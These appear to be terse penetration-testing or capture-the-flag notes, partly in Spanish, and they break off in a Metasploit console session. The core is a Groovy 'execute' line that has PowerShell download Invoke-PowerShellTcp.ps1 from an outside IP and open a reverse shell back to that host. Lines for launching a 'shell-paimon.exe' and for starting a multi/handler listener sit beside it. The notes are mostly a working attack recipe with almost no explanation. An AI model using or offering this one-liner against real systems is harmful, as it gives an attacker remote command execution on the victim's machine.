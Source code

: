 
Start-Process "shell-paimon.exe"




NETCAT:

<strong>println "powershell iex (New-Object Net.WebClient).DownloadString(\'http://10.10.143.22:8081/Invoke-PowerShellTcp.ps1\');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.143.22 -Port 443".execute().text
</strong>

METASPLOIT CONFIUGURACION:





──(root㉿kali)-[~]
└─# msfconsole
                                                  
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,                                                                          
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,                                                                       
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:                                                                     
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,                                                                   
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo                                                                  
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk                                                                 
 oMMMMMMMMMMx.                    dMMMMMMMMMMx                                                                
.WMMMMMMMMM:                       :MMMMMMMMMM,                                                               
xMMMMMMMMMo                         lMMMMMMMMMO                                                               
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;                                                        
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:                                                         
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:                                                           
xMMMMMMMMMd                        ,0MMMMMMMMMMK;                                                             
.WMMMMMMMMMc                         'OMMMMMM0,                                                               
 lMMMMMMMMMMk.                         .kMMO'                                                                 
  dMMMMMMMMMMWd'                         ..                                                                   
   cWMMMMMMMMMMMNxc'.                ##########                                                               
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit

       =[ metasploit v6.2.23-dev                          ]
+ -- --=[ 2259 exploits - 1188 auxiliary - 402 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set /multi/handler
/multi/handler => 
msf6 > options
